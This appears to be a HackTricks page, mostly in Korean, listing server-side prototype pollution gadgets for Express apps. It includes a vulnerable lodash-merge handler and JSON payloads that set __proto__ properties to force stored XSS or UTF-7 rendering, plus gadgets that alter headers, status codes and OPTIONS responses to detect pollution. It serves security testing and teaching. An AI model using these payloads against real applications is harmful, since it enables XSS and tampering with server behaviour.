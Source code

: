 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## XSS 응답 제공

**자세한 내용은** [**원본 연구를 참조하세요**](https://portswigger.net/research/server-side-prototype-pollution)

### JSON 콘텐츠 유형을 HTML로 변경

**JSON 콘텐츠 유형 응답**을 사용하고 JSON을 반영하는 Express 앱에서:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
이 경우 JSON 콘텐츠 유형으로 XSS는 일반적으로 불가능합니다. 그러나 프로토타입 오염을 통해 **Express가 HTML 응답을 제공하도록 혼란을 줄 수 있습니다.** 이 취약점은 애플리케이션이 **`res.send(obj)`**를 사용하고 application/json 콘텐츠 유형으로 본문 파서를 사용하는 데 의존합니다.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** 및 **`_body`** 속성을 **오염시킴으로써**, **Express가 HTML 콘텐츠 유형을 제공하고** `_body` 속성을 반영하게 할 수 있으며, 이로 인해 저장된 XSS가 발생할 수 있습니다.

### UTF7 렌더링

Express가 **UTF-7 콘텐츠를 렌더링하도록** 만들 수 있습니다:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## 안전한 스캐닝 기술

### JSON 공백

다음 PP는 JSON 내부의 속성에 추가 공백을 만들어 기능이 중단되지 않도록 합니다:
```json
{"__proto__":{"json spaces": " "}}
```
그럼 반사된 JSON은 다음과 같이 보입니다:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

다음 PP 가젯은 서버가 HTTP 헤더를 반환하도록 합니다: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
It requires the **CORS 모듈이 설치되어야 합니다**

### **OPTIONS 메서드**

다음 페이로드를 사용하면 **OPTIONS 응답에서 메서드를 숨길 수 있습니다**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **상태**

다음 PP 페이로드를 사용하여 **반환된 상태 코드**를 변경할 수 있습니다:
```json
{"__proto__":{"status":510}}
```
### 오류

원시값(예: 문자열)으로 프로토타입에 할당하면 **프로토타입은 객체여야 하므로 no-op 작업이 발생합니다**. `Object.prototype` 자체에 프로토타입 객체를 할당하려고 하면 **예외가 발생합니다**. 우리는 이 두 가지 동작을 사용하여 **프로토타입 오염이 성공했는지 감지할 수 있습니다**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

응용 프로그램이 응답에 객체를 포함할 때, **`__proto__`와 함께 비정상적인 이름의 속성을 생성하는 것**은 유용할 수 있습니다. 특히, **응답에 비정상적인 속성만 반환되는 경우** 이는 응용 프로그램의 취약점을 나타낼 수 있습니다:
```json
{"unusualName":"value","__proto__":"test"}
```
또한 Lodash와 같은 라이브러리가 사용되는 시나리오에서는 프로토타입 오염(PP)을 통해 속성을 설정하고 객체 내부에서 직접 설정하는 것이 또 다른 진단 접근 방식을 제공합니다. 만약 이러한 속성이 응답에서 생략된다면, 이는 Lodash가 병합하기 전에 대상 객체에서 속성의 존재를 확인하고 있음을 시사합니다:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Express에는 **쿼리 문자열 매개변수로부터 객체를 생성할 수 있는** 옵션이 있습니다.\
이것은 **프로토타입 오염 취약점**을 악용하기 위한 버그 **체인**에서 확실히 사용할 수 있습니다.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz`는 Node에서 객체를 생성합니다.**

## References

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
